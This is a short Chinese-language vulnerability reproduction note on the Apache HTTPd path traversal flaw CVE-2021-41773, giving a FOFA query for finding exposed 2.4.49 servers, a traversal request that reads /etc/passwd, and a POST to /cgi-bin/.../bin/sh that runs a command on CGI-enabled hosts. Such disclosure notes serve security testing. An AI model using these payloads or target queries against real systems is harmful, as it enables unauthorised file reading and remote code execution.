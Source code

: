 ```yaml
---
title: Apache HTTPd 路径穿越漏洞 CVE-2021-41773
---
```


# Apache HTTPd 路径穿越漏洞 CVE-2021-41773

## 漏洞描述

Apache HTTPD是一款HTTP服务器，它可以通过mod_php来运行PHP网页。其2.4.49~2.4.50-本中存在一个漏洞，可读取服务器中的任意文件

## 漏洞影响

<a-checkbox checked>Apache HTTPd  2.4.49~2.4.50版本</a-checkbox></br>

## 网络测绘

<a-checkbox checked>
<a-button href="https://fofa.info/result?qbase64=c2VydmVyPSJBcGFjaGUvMi40LjQ5IiA%3D">server="Apache/2.4.49" </a-button>
</a-checkbox>

## 漏洞复现

通过响应包获取 Apache版本

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1633685599184-d9c836db-1324-49ae-a642-702c8b5bce78-20220308094317679.png)

验证POC

```php
/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1633685786125-ff050193-f7dd-45a9-a867-8f0c801f0024.png)

开启CGI的情况下可RCE

```php
POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh
  
B=|id>/tmp/id_txt
```